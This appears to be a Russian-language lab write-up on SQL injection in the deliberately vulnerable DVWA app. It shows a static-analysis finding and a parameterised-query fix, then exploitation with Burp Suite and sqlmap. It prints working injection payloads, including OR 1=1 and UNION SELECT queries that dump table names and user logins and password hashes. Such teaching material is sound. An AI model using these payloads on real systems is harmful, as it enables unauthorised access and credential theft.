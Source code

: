# Использование статического анализатора кода для обеспечения безопасности

## Обнаружен участок кода, подверженный инъекции SQL кода:

```php
$getid  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";
$result = mysqli_query($GLOBALS["___mysqli_ston"],  $getid );
```
## Результат анализа статическим анализатором кода:

![image](https://github.com/halissha/rbpzos4_static/blob/main/img.png)

## Основные проблемы:
### Пользовательские данные подставляются в запрос без плейсхолдеров или экранирования

```
[MITRE, CWE-89] - Improper Neutralization of Special Elements used in an SQL Command
```

### Пользовательские данные не проходят проверку перед выполнением запроса

```
[MITRE, CWE-20] - Improper Input Validation
```

Вследствие игнорирования требований безопасности мошенник может сконструировать вредоносный запрос в базу данных.
Это может быть чревато потерей, модификацией, утечкой данных, или получением мошенником доступа к оболочке.

## Устранение угроз безопасности:

- Воспользуемся PDO для конструирования параметризованного запроса (PDO - расширение для PHP, предоставляющее разработчику универсальный интерфейс для доступа к различным базам данных.)

```php
 $statement = $pdo->prepare('SELECT first_name, last_name FROM users WHERE user_id = :id;');
 $statement->bindParam("id", $id, PDO::PARAM_INT);
 $statement->execute();
```

- Обеспечим дополнительную валидацию переменной "id" по типу и длине

```php
 if (is_numeric($id) && strlen((string)$id) == 3) {
    ...
}
```
## Запахи кода:
### Файл должен содержать пустую строку в конце

Некоторые инструменты работают лучше когда файл содержит пустую строку в конце

### Убрать закрывающий тег ?> в конце файла

Согласно стандарту PSR2 закрывающий тег не требуется использовать в файле, содержащем только php-код

### Убрать пустое место после открывающей скобки и перед закрывающей скобкой

Общий принцип следование стандартам оформления кода позволяет командной разработке быть эффективнее, а коду быть более читаемым

## Результат повышения безопасности формы:

![image](https://github.com/halissha/rbpzos4_static/blob/main/image.png)

## Использование Burp Suite для нахождения уязвимости
Настроим прокси в Burp Suite для возможности перехвата запросов:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy.jpg)

Аналогично настроим прокси в ручном режиме в браузере:
![image](https://github.com/halissha/rbpzos4_static/blob/main/proxy_browser.jpg)

## Перехват запросов с DVWA SQL Injection
Попробуем перехватить запрос с атакуемой страницы с помощью Interception:
![image](https://github.com/halissha/rbpzos4_static/blob/main/intercept.jpg)

## Обнаружение уязвимости с помощью Burp Suite
Проведем следующую инъекцию и получим всех пользователей, с помощью OR легко проходим валидацию:
```php
1 OR 1=1#
1+OR+1%3d1%23
```
Получим всех пользователей в ответе:

![image](https://github.com/halissha/rbpzos4_static/blob/main/users.jpg)

Теперь проведем инъекцию на обнаружение имен таблиц:
```php
1 UNION SELECT 1, TABLE_NAME FROM INFORMATION_SCHEMA.TABLES#
1+UNION+SELECT+1,TABLE_NAME+FROM+INFORMATION.SCHEMA.TABLES%23
```
Получим имена всех таблиц, в ответе можно заметить важную таблицу users:
![image](https://github.com/halissha/rbpzos4_static/blob/main/user_table.jpg)

Следующим шагом попробуем вытащить логины и пароли из таблицы users с помощью следующей инъекции:
```php
1 UNION SELECT user, password FROM users#
1+UNION+SELECT+user,+password+FROM+users%23
```
В отвече получим логины и пароли пользователей системы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/logins_passwords.jpg)

## Обнаружение уязвимости с помощью SQLMap

Воспользуемся утилитой SQLMap для выявления уязвимых параметров запроса. Утилита выявила уязвимости с типами:
```php
boolean-based blind
time-based blind
```
![image](https://github.com/halissha/rbpzos4_static/blob/main/table_vulns.jpg)

Далее при помощи утилиты получим список имеющихся баз данных:
![image](https://github.com/halissha/rbpzos4_static/blob/main/dbases.jpg)

Нашли базу данных dvwa, просмотрим ее таблицы:
![image](https://github.com/halissha/rbpzos4_static/blob/main/tables.jpg)

Нашли таблицу users, просмотрим её колонки:
![image](https://github.com/halissha/rbpzos4_static/blob/main/cols.jpg)

Удалось с помощью утилиты sqlmap определить пароли пользователей по имеющимся в таблице хешам:
![image](https://github.com/halissha/rbpzos4_static/blob/main/pass.jpg)











